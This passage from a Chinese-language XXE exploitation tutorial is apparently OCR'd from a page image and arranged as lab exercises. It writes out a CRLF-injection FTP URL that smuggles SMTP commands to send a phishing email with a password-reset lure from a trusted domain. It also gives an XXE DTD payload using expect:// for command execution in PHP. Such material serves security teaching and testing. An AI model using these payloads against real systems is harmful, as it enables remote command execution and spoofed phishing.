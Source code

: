    Java支持在sun.net.ftp.impl.FtpClient中的ftp URI。因此，我们可以指定用户名和密码，例如ftp://user:password@host:port/test.txt，FTP客户端将在连接中发送相应的USER命令。

   但是如果我们将%0D%0A (CRLF)添加到URL的user部分的任意位置，我们就可以终止USER命令并向FTP会话中注入一个新的命令，即允许我们向25端口发送任意的SMTP命令：

   **示例代码：**

   ```
   ftp://a%0D%0A
   EHLO%20a%0D%0A
   MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
   RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
   DATA%0D%0A
   From%3A%20support%40VULNERABLESYSTEM.com%0A
   To%3A%20victim%40gmail.com%0A
   Subject%3A%20test%0A
   %0A
   test!%0A
   %0D%0A
   .%0D%0A
   QUIT%0D%0A
   :a@VULNERABLESYSTEM.com:25
   ```

   当FTP客户端使用此URL连接时，以下命令将会被发送给VULNERABLESYSTEM.com上的邮件服务器：

   **示例代码：**

   ```
   ftp://a
   EHLO a
   MAIL FROM: <support@VULNERABLESYSTEM.com>
   RCPT TO: <victim@gmail.com>
   DATA
   From: support@VULNERABLESYSTEM.com
   To: victim@gmail.com
   Subject: Reset your password
   We need to confirm your identity. Confirm your password here: http://PHISHING_URL.com
   .
   QUIT
   :support@VULNERABLESYSTEM.com:25
   ```

   这意味着攻击者可以从从受信任的来源发送钓鱼邮件（例如：帐户重置链接）并绕过垃圾邮件过滤器的检测。除了链接之外，甚至我们也可以发送附件。

   ### **实验八：其他：**

   除了上面实验中的一些常见利用以外还有一些不是很常用或者比较鸡肋的利用方式，为了完整性我在这一节简单的说一下：

   #### **1.PHP expect RCE**

   由于 PHP 的 expect 并不是默认安装扩展，如果安装了这个expect 扩展我们就能直接利用 XXE 进行 RCE

   **示例代码：**

   ```dtd
   <!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
   <dir>
   <file>&cmd;</file>
   </dir>
   ```
